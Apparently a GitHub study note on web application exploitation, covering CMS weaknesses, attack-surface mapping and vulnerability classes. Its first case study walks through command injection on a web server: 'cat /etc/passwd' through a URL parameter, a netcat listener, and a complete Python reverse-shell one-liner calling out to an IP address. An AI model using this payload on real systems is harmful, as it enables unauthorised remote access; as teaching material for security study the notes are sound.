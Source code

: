 # Web Application Basics & Exploitation
- Internet Workflow
  ![image](https://github.com/user-attachments/assets/4910ffa0-592d-42ab-955e-c8952e1ec69e)

- Web Application Architecture
  ![image](https://github.com/user-attachments/assets/73c7c49b-b8d5-4801-b5f1-a67680224044)
- Content Management Systems (CMS) offers a flexible, back-end interface for users to edit, modify, and publish content on a website. CMS are fully managed by frameworks
- Over a third of websites online are powered by four key platforms: WordPress, Joomla, Drupal and Magento
- CMS can be hacked due to the following reasons:
  - Outdated version
  - Inexperienced administrators
  - Wide permissions to normal users
  - Malicious plugins
  - Phishing attempts
  - Few are open source



## Custom Web Application Exploitation
#### Case Study: Threat Actor Attempts to Compromise an Organisation-managed Website
1. A website's phpinfo page
   ![image](https://github.com/user-attachments/assets/cbfbcbe7-1759-4771-918c-33e1f3c5d96d)
2. Execute commands by adding `/?cmd=whoami` at the end of the IP address/URL returns `apache`
3. Adding `/?cmd=hostname` returns `ip-10-1-1-155.us-east-2.compute.internal`
4. Adding `/?cmd=cat /etc/passwd` returns the following
   ![image](https://github.com/user-attachments/assets/9b9e579d-1944-4e78-8343-bef641d6b518)
5. To make the output readable, add `view-source:` before http of the URL
   ![image](https://github.com/user-attachments/assets/183f8a0d-8619-4dcb-82c8-95a3bc20d6e6)
6. The user runs `nc -nlvp 4443` on their system to start Netcat in listening mode (`-l`), does not resolve DNS lookups (`-n`), provides verbose output (`-v`) and specifies port 4443 (`-p 4443`) to listen for incoming connections on that port
7. The following command is added after `/?cmd=` after the URL to establish a reverse shell connection to the attacker's machine
   ```
   python -c 'import socket,subprocess,os;
   s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
   s.connect(("44.202.84.194",4443));
   os.dup2(s.fileno(),0);
   os.dup2(s.fileno(),1);
   os.dup2(s.fileno(),2);
   subprocess.call(["/bin/sh","-i"])'
   ```
    ![image](https://github.com/user-attachments/assets/34fea118-b70d-47f3-b4c3-026d58a256eb)
8. Once the connection is established, commands like `/sbin/ifconfig` and `ps-aux` can be executed to get more details








#### Case Study: Threat Actor Attempts to Compromise WordPress
[Damn Vulnerable WordPress](https://github.com/vavkamil/dvwp) by Kamil Vavra on GitHub

![image](https://github.com/user-attachments/assets/2c960e13-4ed8-4095-b508-f60cd9e19554)
[Botnet of Infected WordPress Sites Attacking WordPress Sites](https://www.wordfence.com/blog/2018/12/wordpress-botnet-attacking-wordpress/) by Wordfence

#### Custom Code (Made from scratch)
- Developer implements the designs / workflow as per the requirement of the project
- Ease of fulfilling the updates as per the requirement, but small update needs to be fixed by a professional developer

#### Hacking websites made from scratch
- Overly mis-configured setup
- Bad business logic
- Vulnerable libraries in the languages
- Integration with multiple other frameworks / languages
- Chaining multiple vulnerabilities
- Other attack vectors

#### Mapping attack surface
![image](https://github.com/user-attachments/assets/9af95055-c09e-4ba3-a8ae-21ae05b5c5a0)
- Attack surface analysis is the mapping of part of a web application that needs to be analysed and tested for security vulnerabilities
- Used by security researchers to understand the in-depth working of the web app
- The main aim is to identify the attack vectors that can be leveraged externally

#### Points worth the time investment
- Login/Logout Fields
- Admin Spaces
- Logic Workflow
- Files uploaded by users
- Extranet interfaces (if any)
- Communication with other applications / systems via interfaces
- Custom implemented protocols / APIs etc
- Critical libraries like : Authentication / Authorization / Session management etc

#### Validate the findings
- Enumeration is the key, take your time to analyse the application workflow
- Identify misconfigurations that are not baselining with the standards
- Identify the risk associated with the identified mis-configurations
- Perform Penetration Testing
- Validate the findings
- Document & Report as required

#### Vulnerabilities
- Server-side Vulnerabilities
  - Command Injection
  - Directory Traversal
  - Server-side Request Forgery (SSRF)
  - SQL Injection
  - File Upload
  - Information Disclosure
- Client-side Vulnerabilities
  - Cross-site Scripting (XSS)
  - Clickjacking
  - Cross-side Request Forgery (CSRF)
  - Cross-origin Resource Sharing (CORS)


## Configure Web Application Debugging & Exploitation Tool (BurpSuite)



## Capture & Modify Requests Using BurpSuite




## IDN Homograph Attacks
